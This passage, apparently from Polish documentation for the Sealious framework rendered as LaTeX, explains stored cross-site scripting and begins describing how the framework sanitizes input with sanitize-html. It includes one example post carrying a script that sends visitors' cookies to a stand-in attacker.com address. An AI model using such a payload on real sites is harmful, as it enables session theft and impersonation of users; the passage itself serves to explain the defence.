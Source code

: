 \documentclass[12pt,polish,a4paper,]{report}
\newenvironment{Shaded}{}{}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{{#1}}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{{#1}}}
\newcommand{\SpecialStringTok}[1]{\textcolor[rgb]{0.73,0.40,0.53}{{#1}}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.10,0.09,0.49}{{#1}}}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.40,0.40,0.40}{{#1}}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.49,0.56,0.16}{{#1}}}
\newcommand{\NormalTok}[1]{{#1}}
\begin{document}
Następnie, jeżeli serwer nie zapobiega XSS, wystarczy, aby któryś z
użytkowników rozpatrywanej aplikacji utworzył post o treści:

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<div>}
\NormalTok{Jestem złośliwym użytkownikiem}
\KeywordTok{</div>}
\KeywordTok{<script>}
\VariableTok{document}\NormalTok{.}\AttributeTok{location}\OperatorTok{=}\StringTok{'http://www.attacker.com/cgi-bin/cookie.cgi?foo='}
   \OperatorTok{+} \VariableTok{document}\NormalTok{.}\AttributeTok{cookie}
\OperatorTok{<}\SpecialStringTok{/script>}
\end{Highlighting}
\end{Shaded}

aby każdy z użytkowników, któremu wyświetli się post atakującego został
przekierowany na złośliwą stronę, która przechwytuje id sesji---co
umożliwia atakującemu podszycie się pod tego użytkownika.

\section{Jak Sealious zapobiega XSS}\label{jak-sealious-zapobiega-xss}

Domyślnie zainstalowany w Sealiousie typ pola \texttt{text} korzysta z
modułu \texttt{sanitize-html} aby usuwać z inputu użytkownika
potencjalnie złośliwe skrypty\footnote{poniższy fragment kodu pochodzi z
  pliku \texttt{lib/base-chips/field-type.text.js} z repozytorium
  sealious/sealious}:
\end{document}
